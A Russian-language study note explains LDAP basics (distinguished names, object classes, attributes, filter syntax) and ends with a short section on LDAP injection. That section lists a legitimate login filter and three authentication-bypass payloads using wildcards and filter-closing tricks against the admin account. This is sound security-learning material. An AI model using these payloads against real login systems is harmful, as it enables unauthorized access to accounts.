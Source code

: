 **LDAP (Lightweight Directory Access Protocol**) -
1. открытый протокол, который используется для хранения и получения данных из каталога с иерархической структурой.
2. облегченный протокол доступа к каталогам, открытый стандартизованный протокол, применяемый для работы с различным реализациям служб каталогов, который может использоваться для управления пользователями, группами и привилегиями.

- представляет информацию в форме древовидной структуры, где каждый элемент идентифицируется уникальным `Distinguished Name (DN)`
- DN представляет собой уникальный путь к элементу в дереве
- Данные в LDAP организованы с использованием объектных классов и атрибутов
    - Объектные классы определяют тип объекта (например, пользователь, группа)
    - атрибуты содержат собственно информацию.


![[Pasted image 20241004203801.png]]

Атрибуты - пара ключ-значение.
Запись – набор атрибутов.

# Синтаксис

![[Pasted image 20241004203903.png]]

# LDAP-иньекции
Легетимный запрос
- (&(login=ivan.rubenko)(pswd=123ivan321))
![[Pasted image 20241004204008.png]]
- (&(login=admin)(pswd=*))
![[Pasted image 20241004204015.png]]
- (&(login=admin)(&))(pswd=test))
![[Pasted image 20241004204023.png]]
- (&(login=admin)(|(!pswd=1)(pswd=1)))
![[Pasted image 20241004204030.png]]